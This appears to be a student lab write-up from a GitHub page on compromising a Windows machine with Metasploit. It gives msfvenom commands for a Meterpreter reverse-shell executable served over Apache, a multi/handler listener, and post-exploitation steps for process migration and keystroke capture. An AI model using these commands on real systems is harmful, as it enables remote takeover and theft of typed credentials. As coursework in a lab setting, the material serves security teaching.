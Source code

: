 # EXP.NO:6
# DATE:06.04.2024

# Compromising windows using Metasploit

# AIM:
To Compromise windows using Metasploit .

# ALGORITHM:
### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## Commands:
```
ipconfig
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
cp fun.exe /var/www/html
sudo systemctl apache2 start
msfconsole
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
ps


```

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/241e38d4-48ea-4e84-844c-203800b748ab)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9a5df072-ea93-4d78-b19d-0b538abd2afe)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fa436c58-1533-42ad-953e-05aab7679b33)

Start apache server sudo systemctl apache2 start
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/79b3ed4f-2e95-4c10-9308-3c931e3f9b07)

Check the status of apache2
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fcc713e4-2884-489f-9682-8b418e6071df)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/afb1606a-460c-4142-840f-2c5eca6de9df)

ype help or a question mark "?" to see the list of all available commands you can use inside msfconsole
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/5485dcda-63dc-46fc-9e17-982b7fb666c1)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/e65719b5-a0a3-4791-8179-01f60ef680d4)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9e462cee-0922-46b0-bbdc-5eec4b3493fb)

Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/465816f7-7f2d-4cd1-9ec1-a37730d2ac72)

On kali give the command exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9c28793a-9789-45b3-93b9-73328162f9a3)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/3ebff0be-9705-4b37-8d25-ee198512f4c2)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/d4a87497-8634-494d-a4e8-f8d892cc7080)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/679e1a38-ac9a-4827-bceb-11eca119d56a)
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/f30636e6-c1b1-4f9f-ab43-ff1c400bafa5)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/847f50fc-ae46-4a16-babf-63782184e0b4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
